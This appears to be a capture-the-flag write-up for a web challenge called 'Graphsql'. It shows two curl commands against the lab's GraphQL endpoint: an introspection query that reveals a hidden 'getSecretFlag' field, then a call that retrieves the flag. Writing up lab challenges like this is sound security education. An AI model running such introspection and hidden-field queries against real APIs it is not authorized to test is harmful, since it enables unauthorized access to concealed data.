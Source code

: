 # Graphsql
300 Points
### Description

a powerful GraphQL search functionality

### Soulution

looking at the script on the web for the GraphQL see a function searchProducts() that can get us only a few attributes of the product.

```html
<script>
  async function searchProducts() {
    const keyword = document.getElementById("searchInput").value;
    const query =
      query {
        searchProducts(keyword: "${keyword}") {
          id
          name
          price
        }
      }
    ;

    const response = await fetch("/graphql", {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({ query }),
    });

    const result = await response.json();
    const resultsList = document.getElementById("results");
    resultsList.innerHTML = "";

    if (result.data && result.data.searchProducts.length > 0) {
      result.data.searchProducts.forEach(product => {
        const li = document.createElement("li");
        li.textContent = ${product.name} - $${product.price};
        resultsList.appendChild(li);
      });
    } else {
      resultsList.innerHTML = "<li>No results found.</li>";
    }
  }
</script>
```

So using a payload to get all the schmema of the GraphQL API

```bash
curl -X POST "https://yfgrkspxvh-ctf.cybersecuritychallenge.al/graphql" \
     -H "Content-Type: application/json" \
     -d '{"query":"{ __schema { types { name fields { name } } } }"}'
```

output:

```JSON
{
    "data": {
        "__schema": {
            "types": [{
                "name": "Product",
                "fields": [{
                    "name": "id"
                }, {
                    "name": "name"
                }, {
                    "name": "price"
                }]
            }, {
                "name": "ID",
                "fields": null
            }, {
                "name": "String",
                "fields": null
            }, {
                "name": "Float",
                "fields": null
            }, {
                "name": "Query",
                "fields": [{
                    "name": "searchProducts"
                }, {
                    "name": "getSecretFlag"
                }]
            }
        // the rest of the code
        ]
        }
    }
}
```

We see that we have more than one function we can call getSecretFlag()

```bash
curl -X POST "https://yfgrkspxvh-ctf.cybersecuritychallenge.al/graphql" \
     -H "Content-Type: application/json" \
     -d '{"query":"{ getSecretFlag }"}'
```

output:

```JSON
{
    "data": {
        "getSecretFlag": "CSC25{h1dd3n_gr4phq1_fl4g}"
    }
}
```

flag: `CSC25{h1dd3n_gr4phq1_fl4g}`
